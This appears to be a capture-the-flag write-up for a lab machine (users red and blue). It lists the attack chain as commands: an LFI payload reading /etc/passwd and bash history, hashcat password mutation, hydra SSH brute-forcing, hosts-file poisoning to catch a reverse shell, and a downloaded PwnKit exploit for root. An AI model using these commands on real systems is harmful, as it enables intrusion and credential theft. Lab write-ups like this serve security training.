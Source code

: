 
# Lateral Movement to user
## Local Enumeration


## Lateral Movement vector


---

# Privilege Escalation
## Local Enumeration


## Privilege Escalation vector


---

# Recreation Steps
1. Utilize LFI found at `http://<ATTACK_IP>/index.php?page=php://filter/resource=/etc/passwd`
	- Gives us a list of all users two to note *red* & *blue*
2. Investigate both users by going to: `http://<ATTACK_IP>/index.php?page=php://filter/resource=/home/<USER>/.bash_history`
	- *red* is blank
	- *blue* contains needed steps to get the password list for this user
3. Blues command history indicates that it access another file so lets grab that quick: `http://ATTACK_IP/index.php?page=php://filter/resource=/home/blue/.reminder`
	- Contains what was the blue users password
	- Save this to our machine by copy pasting it to a file names `.reminder`
4. Next blues bash history shows they ran a [[Hashcat]] command which we will replicate run the following on our machine: `hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt`
	- This will generate out password list we will need to use to access the *blue* user
5. Bruteforce SSH against user blue using our newly created *passlist.txt*: `hydra -l blue -P ./passlist.txt ssh://<ATTACK_IP>`
6. As *blue* user on SSH run: `echo "<LOCAL_IP> redrules.thm" >> /etc/hosts`
	- This will append our IP to the hosts file because there is a bash command that keeps running calling a shell at that domain
	- The system as a defense will overwrite the hosts file so we might need to do this a few times while waiting for the shell to open 
7. Start a listener on our machine for *port 9001*: `nc -lvnp 9001`
	- Now we wait until we get a shell as the user *red*
8. As *red* user we need to stabilize the shell as this shell right now is non-interactive.
9. Once stable download the following on our local machine: `wget https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py`
10. Edit this python script and change the ending of it *line 110* to:
![[Pasted image 20230715190306.png]]
- We are telling the script that we want to use the [[Pkexec]] file under the .git directory as it has the *setid* that will allow us to run this command as root
11. Run a python server on our machine to transfer the file over to the victim: `python -m http.server 3000`
12. On the victim now navigate to the */tmp* directory and download our python script
13. Run the script through python and we should have *root*
14. Flag grabbing now:
	1. /home/blue/flag1
	2. /home/red/flag2
	3. /root/flag3
